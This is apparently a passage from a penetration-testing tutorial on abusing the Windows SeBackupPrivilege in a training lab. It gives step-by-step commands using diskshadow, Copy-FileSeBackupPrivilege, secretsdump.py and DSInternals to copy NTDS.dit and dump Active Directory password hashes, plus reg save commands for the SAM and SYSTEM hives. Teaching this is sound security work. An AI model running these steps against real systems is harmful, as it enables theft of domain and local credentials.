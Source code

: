 ```powershell
diskshadow.exe
```

```powershell
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

Next, we can use the **Copy-FileSeBackupPrivilege** cmdlet to bypass the ACL and copy the **NTDS.dit** locally.

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

With the **NTDS.dit** extracted, we can use a tool such as **secretsdump.py** or the PowerShell **DSInternals** module to extract all Active Directory account credentials. Let's obtain the NTLM **hash** for just the administrator account for the domain using DSInternals.

```shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

#### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the **SAM** and **SYSTEM** registry hives, which we can extract local account credentials offline using a tool such as Impacket's **secretsdump.py**.

```shell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the **FILE_FLAG_BACKUP_SEMANTICS** flag is specified.

### Event Log Readers Group

```powershell
whoami /groups
```
